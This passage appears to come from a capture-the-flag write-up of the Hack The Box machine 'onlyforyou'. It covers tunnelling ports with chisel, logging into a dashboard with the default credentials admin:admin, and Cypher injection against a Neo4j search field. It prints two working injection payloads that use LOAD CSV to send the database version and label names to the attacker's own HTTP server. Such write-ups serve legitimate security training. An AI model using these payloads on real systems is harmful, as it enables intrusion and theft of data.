 >  Chisel is a fast TCP tunnel, transported over HTTP. A single executable including both client and server. Written in Golang. Chisel is mainly useful for passing through firewalls.

Setting up a chisel listener on our machine:

![chisel-server](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/chisel-server.png)

Forwarding the required ports on the server machine:

![chisel-client](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/chisel-client.png)

Now we check if there's a web service running on port `3000` by going to the following URL in our browser "127.0.0.1:3000".

As we can see the web service running in port `3000` is `Gogs`.

![gogs-3000](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/gogs-3000.png)

Checking port `8001`, we can see a login page but we don't have any login credentials.

![port-8001-login](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/port-8001-login.png)

If we try `admin:admin` we will be navigated to the admin dashboard.

![port-8001](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/port-8001.png)

We can see a `neo4j` database.

> Neo4j is a graph database management system developed by Neo4j, Inc. The data elements Neo4j stores are nodes, edges connecting them, and attributes of nodes and edges.

so let's try to inject different payloads in the `search` parameter to retrieve data using [hacktricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j).

![search-func](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/search-func.png)

Note that the payloads first need to be URL encoded before sending it.

Payload #1 (extract database version):

`' OR 1=1 WITH 1 as a CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.16.47:80/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // `.

![neo4j-version-burp](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/neo4j-version-burp.png)

We can setup a simple HTTP server using python to receive the payload response.

![neo4j-version](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/neo4j-version.png)

Payload #2 (extract labels aka tables):

``'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.47:80/?label='+label as l RETURN 0 as _0 //`.

![neo4j-tables-burp](/home/emperor10/Downloads/Pentesting/Machines/HTB-MACHINES/Rooted/onlyforyou/Writeup/neo4j-tables-burp.png)
